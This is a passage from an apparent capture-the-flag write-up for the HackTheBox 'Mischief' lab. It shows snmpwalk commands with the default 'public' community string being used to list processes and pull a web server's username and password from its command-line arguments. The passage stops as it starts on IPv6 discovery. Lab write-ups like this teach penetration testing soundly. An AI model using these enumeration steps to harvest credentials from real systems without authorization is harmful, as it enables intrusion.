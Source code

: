 
#### Find Web Credentials via Process List

One thing I wanted to check out was the python process that's hosting
the webserver on port 3366. I'll start by finding the ID of that
process:



    root@kali# snmpwalk -v 2c -c public 10.10.10.92 hrSWRunName | grep python
    HOST-RESOURCES-MIB::hrSWRunName.617 = STRING: "python"



Now, I'll ask snmp for all of the entries in the hrSWRunTable, and grep
for 617:



    root@kali:~/hackthebox/mischief-10.10.10.92# snmpwalk -v 2c -c public 10.10.10.92 hrSWRunTable | grep 617
    HOST-RESOURCES-MIB::hrSWRunIndex.617 = INTEGER: 617
    HOST-RESOURCES-MIB::hrSWRunName.617 = STRING: "python"
    HOST-RESOURCES-MIB::hrSWRunID.617 = OID: SNMPv2-SMI::zeroDotZero
    HOST-RESOURCES-MIB::hrSWRunPath.617 = STRING: "python"
    HOST-RESOURCES-MIB::hrSWRunParameters.617 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
    HOST-RESOURCES-MIB::hrSWRunType.617 = INTEGER: application(4)
    HOST-RESOURCES-MIB::hrSWRunStatus.617 = INTEGER: runnable(2)



I can see the hrSWRunParameters, which gives me that command line
parameters called.

[SimpleHTTPAuthServer](https://github.com/tianhuil/SimpleHTTPAuthServer)
seems to take positional arguments of port and key:



    root@kali# python -m SimpleHTTPAuthServer -h
    usage: SimpleHTTPAuthServer [-h] [--dir DIR] [--https] port key

    positional arguments:
      port        port number
      key         username:password

    optional arguments:
      -h, --help  show this help message and exit
      --dir DIR   directory
      --https     Use https



So I now have the creds for that service.

#### Get IPv6 Address - snmpwalk

Any time snmp is exposed, it's a good way to get the host's IPv6 address
and re-nmap to see if there are any other ports listening on only IPv6.
That's especially worth doing here, as I noticed apache is running in
the process list, but I didn't see it listening with nmap:
